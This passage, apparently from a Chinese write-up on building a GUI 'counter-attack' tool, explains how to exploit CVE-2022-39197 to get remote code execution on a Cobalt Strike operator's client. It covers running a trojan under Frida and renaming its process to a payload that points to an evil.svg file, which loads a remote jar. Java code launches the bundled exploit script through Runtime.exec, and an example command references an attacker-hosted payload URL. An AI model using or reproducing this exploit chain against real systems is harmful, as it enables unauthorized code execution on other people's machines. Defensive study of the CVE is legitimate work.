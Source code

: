 ​	2）用户提前准备好获取到的木马文件、目标主机能访问的SVG文件和实现远程代码执行功能的jar包。点击执行按钮设计如下功能：通过命令处的文本框接收用户输入的木马可执行文件绝对地址和SVG文件地址，点击执行按钮调用cs_rce类，Frida运行并注入可执行文件，修改进程列表里的该可执行文件名为包含用户输入的SVG文件地址的漏洞payload，Cobalt Strike客户端用户查看进程信息即触发访问SVG文件里设置的 jar包，执行jar包设置的代码，实现反制。

```java
//button1：执行按钮,反制
button1.setOnAction(event2 -> {
    payload=textArea2.getText();  //接收命令
    if (name[0].equalsIgnoreCase("cs RCE")){
        if (payload== null){
            textArea1.appendText("[*]命令不能空！\ne.g:beacon.exe http://127.0.0.1:4444/evil.svg\n\n");
        }
        else{
            d = new Date();
            time = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss").format(d);
            textArea1.appendText("[+]运行成功！" + time + "自行查看结果：\n");
            textArea1.appendText(cs_rce.poc(payload));}
    }
});
```

​	3）这里我将执行漏洞的代码封装在cs_rce类：通过读取并**生成临时文件的方法**调用项目resources目录下的cve_2022_39197.py文件，该文件关键利用代码在之前Cobalt Strike章节的漏洞原理里具体解释过。

​			(1)cs_rce类：从当前类所在的resources目录中获取名为cve_2022_39197.py的文件内容，然后将其写入到同名的文件中。具体实现是通过创建一个FileOutputStream对象来将输入流中的数据写入到同名文件中。在这个过程中，使用一个缓冲区来提高效率。

```java
String filename = "cve_2022_39197.py";
InputStream inputStream = cs_rce.class.getResourceAsStream("/"+filename);  //"/"表示在classpath的根目录下查找
//System.out.println("[+]"+filePath+"\n");
File file = new File(filename);
FileOutputStream outputStream = new FileOutputStream(file);  // 将inputStream写入到临时文件file中
byte[] buffer = new byte[1024];
int len;
while ((len = inputStream.read(buffer)) != -1) {
    outputStream.write(buffer, 0, len); }
```

​			(2)然后调用Java的Runtime类执行该Python文件，读取Python运行结果并追加输出到回显文本框：

```java
// 执行python脚本
//String[] args = new String[]{"python3", file.getAbsolutePath()};
String s="python3 "+file.getAbsolutePath()+" "+target;
System.out.println(s);
Process proc = Runtime.getRuntime().exec(s);// 执行py文件

//获取输入流
BufferedReader in = new BufferedReader(new InputStreamReader(proc.getInputStream()));
//获取错误流
BufferedReader errorStreamReader = new BufferedReader(new InputStreamReader(proc.getErrorStream()));

String line = null;
String result="";
while ((line = in.readLine()) != null) { //读取输入流
    result =result+line+"\n";
}
while ((line = errorStreamReader.readLine()) != null) {//读取错误流
    result =result+line+"\n";
}
in.close();
//等待子进程退出
proc.waitFor();
return "[+] 执行结果:\n"+result+"\n";
```
